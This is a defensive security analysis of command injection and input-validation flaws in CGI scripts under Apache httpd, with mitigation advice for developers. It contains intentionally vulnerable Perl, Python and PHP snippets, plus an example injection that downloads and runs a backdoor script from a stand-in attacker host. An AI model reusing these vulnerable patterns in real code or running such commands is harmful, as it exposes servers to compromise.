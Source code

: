## Deep Analysis of Attack Tree Path: Exploit Vulnerabilities in CGI Scripts Themselves (Input Validation, Command Injection) [CRITICAL]

This analysis delves into the specific attack tree path focusing on exploiting vulnerabilities within CGI scripts, specifically input validation and command injection flaws, within an application using Apache httpd. This is a **CRITICAL** risk due to the potential for complete server compromise.

**Understanding the Attack Path:**

This path focuses on the inherent weaknesses in how CGI scripts process user-supplied data. Instead of exploiting vulnerabilities within the Apache httpd server itself (like buffer overflows in the core server), this path targets the custom code written by developers to handle dynamic content.

**Breakdown of the Attack Path Components:**

* **Target:** CGI Scripts running under Apache httpd.
* **Vulnerability Focus:**
    * **Insufficient Input Validation:** This is the primary weakness. CGI scripts often receive data from users through web forms, URL parameters, or cookies. If these scripts don't rigorously validate and sanitize this input, attackers can inject malicious data.
    * **Command Injection:** This is the consequence of poor input validation. When unsanitized user input is directly incorporated into system commands executed by the CGI script, attackers can inject their own commands, leading to arbitrary code execution on the server.
* **Exploitation Method:** Attackers craft malicious input designed to bypass the script's validation (or lack thereof) and inject commands that the server will execute.
* **Outcome:** Successful exploitation allows attackers to execute arbitrary commands with the privileges of the user running the CGI script (typically the web server user, e.g., `www-data`, `apache`).

**Deep Dive into the Vulnerabilities:**

**1. Insufficient Input Validation:**

* **The Problem:** CGI scripts often assume user input is benign and directly use it in operations. This is a dangerous assumption.
* **Common Pitfalls:**
    * **Lack of Validation:**  No checks are performed on the input data.
    * **Inadequate Validation:**  Validation is present but easily bypassed (e.g., only checking length, not content).
    * **Incorrect Validation:**  Using flawed logic or regular expressions that don't cover all malicious cases.
    * **Relying on Client-Side Validation:** Client-side validation can be easily bypassed by manipulating the request directly.
* **Examples in CGI Scripts (Conceptual):**
    * **Shell Command Construction:**
        ```perl
        # Vulnerable Perl CGI script
        my $filename = param('filename');
        system("cat /path/to/files/$filename"); # If $filename is not validated, attacker can inject commands
        ```
    * **SQL Query Construction:**
        ```python
        # Vulnerable Python CGI script
        import cgi
        form = cgi.FieldStorage()
        username = form.getvalue('username')
        cursor.execute("SELECT * FROM users WHERE username = '" + username + "'") # SQL Injection
        ```
    * **File Path Manipulation:**
        ```php
        // Vulnerable PHP CGI script
        $file = $_GET['file'];
        include("/var/www/data/" . $file); // Path Traversal if $file contains "../"
        ```

**2. Command Injection:**

* **The Problem:** When unsanitized user input is used to construct commands that are then executed by the server's operating system.
* **How it Works:** Attackers inject shell metacharacters (like `;`, `|`, `&`, `$()`, backticks) into the input, allowing them to chain or execute arbitrary commands alongside the intended command.
* **Examples of Exploitation:**
    * **Injecting a command to list files:**
        If `$filename` in the Perl example above is set to `file.txt; ls -l`, the server will execute `cat /path/to/files/file.txt` followed by `ls -l`.
    * **Injecting a command to create a backdoor:**
        An attacker could inject a command like `wget http://attacker.com/backdoor.sh -O /tmp/backdoor.sh && chmod +x /tmp/backdoor.sh && /tmp/backdoor.sh` to download and execute a malicious script.
* **Consequences:**
    * **Full System Compromise:** Attackers can gain complete control of the server.
    * **Data Breach:** Access to sensitive data stored on the server.
    * **Denial of Service (DoS):**  Executing commands that consume resources or crash the server.
    * **Malware Installation:** Installing persistent backdoors or other malicious software.
    * **Lateral Movement:** Using the compromised server as a stepping stone to attack other systems on the network.

**Impact Assessment (CRITICAL):**

This attack path has a **CRITICAL** impact due to the potential for:

* **Complete Loss of Confidentiality:** Attackers can access any data accessible by the web server user.
* **Complete Loss of Integrity:** Attackers can modify or delete data on the server.
* **Complete Loss of Availability:** Attackers can shut down the server or make it unusable.
* **Loss of Accountability:**  Attacker actions are performed under the web server's identity, making attribution difficult.

**Mitigation Strategies for the Development Team:**

To prevent exploitation of this attack path, the development team must implement robust security measures:

* **Strict Input Validation and Sanitization:**
    * **Principle of Least Trust:** Treat all user input as potentially malicious.
    * **Whitelisting over Blacklisting:** Define acceptable input patterns and reject anything that doesn't match.
    * **Data Type Validation:** Ensure input matches the expected data type (e.g., integer, email address).
    * **Encoding and Escaping:**  Encode special characters to prevent them from being interpreted as commands or control characters (e.g., HTML escaping, URL encoding, shell escaping).
    * **Context-Aware Encoding:** Encode data appropriately for the context where it will be used (e.g., HTML output, SQL queries, shell commands).
* **Avoid Direct Execution of System Commands:**
    * **Use Libraries and APIs:** Whenever possible, use built-in libraries or APIs to perform system operations instead of directly executing shell commands.
    * **Parameterization/Prepared Statements:** For database interactions, use parameterized queries or prepared statements to prevent SQL injection.
* **Principle of Least Privilege:**
    * **Run CGI Scripts with Minimal Permissions:** Ensure the web server user has only the necessary permissions to perform its tasks.
    * **Avoid Running CGI Scripts as Root:** This is a major security risk.
* **Secure Coding Practices:**
    * **Regular Security Code Reviews:**  Have security experts review the code for potential vulnerabilities.
    * **Static and Dynamic Analysis Tools:** Use automated tools to identify potential security flaws.
    * **Security Training for Developers:** Educate developers on common web application vulnerabilities and secure coding practices.
* **Web Application Firewall (WAF):**
    * Implement a WAF to detect and block malicious requests before they reach the application. WAFs can identify common attack patterns like command injection attempts.
* **Regular Security Audits and Penetration Testing:**
    * Conduct regular security assessments to identify vulnerabilities before attackers can exploit them.
* **Keep Software Up-to-Date:**
    * Regularly update Apache httpd and any libraries or frameworks used by the CGI scripts to patch known vulnerabilities.
* **Disable Unnecessary Features:**
    * Disable any unnecessary CGI features or modules that are not being used.

**Collaboration is Key:**

As a cybersecurity expert working with the development team, it's crucial to:

* **Clearly Communicate the Risks:** Explain the potential impact of these vulnerabilities in business terms.
* **Provide Practical Guidance:** Offer concrete examples and solutions that developers can implement.
* **Foster a Security-Conscious Culture:** Encourage developers to prioritize security throughout the development lifecycle.
* **Work Together on Remediation:** Collaborate with developers to identify and fix vulnerabilities effectively.

**Conclusion:**

Exploiting vulnerabilities in CGI scripts, particularly input validation and command injection flaws, represents a significant and **CRITICAL** security risk. By understanding the mechanics of these attacks and implementing the recommended mitigation strategies, the development team can significantly reduce the attack surface and protect the application and the underlying server from compromise. Continuous vigilance, proactive security measures, and strong collaboration between security and development teams are essential to defend against this type of threat.
